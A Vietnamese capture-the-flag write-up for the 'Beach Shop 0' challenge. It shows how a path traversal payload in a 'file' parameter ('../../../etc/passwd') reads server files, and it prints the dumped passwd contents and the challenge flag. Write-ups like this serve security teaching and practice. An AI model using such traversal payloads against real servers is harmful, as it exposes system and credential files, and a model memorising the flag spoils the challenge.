

# VSL Summer CTF

---
# Challenge: Beach Shop 0
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin Challenge:
- Link: http://61.14.233.78:5000
- Tính năng: Đọc nội dung hình ảnh (về đồ bơi) ở phía server và hiển thị cho người dùng.

## 3. Solution:
- Ta có thể đoán được việc trang web đọc nội dung của file ở server sau đó hiển thị phía client. Vậy sẽ ra sao nếu ta lợi dụng tính năng này để server đọc một nội dung của 1 file bất kì và hiện thị cho phía client.

- Tại url: http://61.14.233.78:5000/images?file=swimming_goggles.jpg có 1 param là `file` và có giá trị `swimming_goggles.jpg`, ta thử thay giá trị của param này bằng `../../../../../../../../../etc/passwd` và có vẻ như server cho ta download file `passwd`.

- Ta sẽ thử đọc nội dung của file `passwd`:
<pre>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

- Từ những điều trên, ta có thể kết luận rằng server đã bị **Path Traversal**, loại lỗi cho phép kẻ tấn công có thể thao túng được file path của chương trình và trong trường hợp này kẻ tấn công có thể đọc bất kì nội dung của 1 file nào đó trên server.

- Bây giờ, ta chỉ cần đọc nội dung flag và giải được challenge, thay giá trị của param `file` thành `../../../../../../../../../flag.txt` và ta nhận được flag là: `VSL{b34ch_sh0p4th_tr4v3rs4l_2idmwiq9@39!}`

